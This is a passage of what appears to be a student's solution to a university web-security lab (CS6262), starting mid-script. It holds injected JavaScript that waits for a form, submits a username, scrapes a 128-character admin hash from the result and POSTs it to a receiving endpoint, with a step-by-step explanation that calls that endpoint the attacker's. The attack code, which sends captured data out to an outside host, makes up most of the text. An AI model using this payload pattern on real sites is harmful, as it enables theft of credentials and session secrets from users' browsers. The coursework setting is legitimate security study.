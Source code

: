 ```javascript
        fetch('https://cs6262.gtisc.gatech.edu/receive/gguruvelli3/2065', {
            method: 'POST',
            body: 'debug=SUCCESS_submitted_gguruvelli3_to_form'
        });

        // Wait for result and extract hash
        setTimeout(function() {
            if (resultSpan && resultSpan.textContent && resultSpan.textContent !== 'pending') {
                var hashMatch = resultSpan.textContent.match(/([a-fA-F0-9]{128})/);
                if (hashMatch) {
                    var hash = hashMatch[1];
                    fetch('https://cs6262.gtisc.gatech.edu/receive/gguruvelli3/2065', {
                        method: 'POST',
                        body: 'admin_hash=' + hash
                    });
                } else {
                    fetch('https://cs6262.gtisc.gatech.edu/receive/gguruvelli3/2065', {
                        method: 'POST',
                        body: 'debug=result_not_hash:' + resultSpan.textContent
                    });
                }
            } else {
                fetch('https://cs6262.gtisc.gatech.edu/receive/gguruvelli3/2065', {
                    method: 'POST',
                    body: 'debug=result_still_pending_or_missing'
                });
            }
        }, 3000);
    } else if (attempts <= 15) {
        setTimeout(lookForForm, 1000);  // Retry in 1 second
    } else {
        fetch('https://cs6262.gtisc.gatech.edu/receive/gguruvelli3/2065', {
            method: 'POST',
            body: 'debug=gave_up_after_15_attempts'
        });
    }
};

lookForForm();
</script>
```

### How This Approach Works

1. **Wait for page to load** - Uses retry logic to wait for the form to appear
2. **Find the form elements** - Queries for the input field and submit button
3. **Fill in the username** - Sets `inputField.value = 'gguruvelli3'`
4. **Click the submit button** - Triggers the form submission
5. **Wait for the result** - Uses `setTimeout` to wait for the server response
6. **Extract the hash** - Parses the result span for the hash value
7. **Exfiltrate the hash** - Sends it to the attacker's endpoint
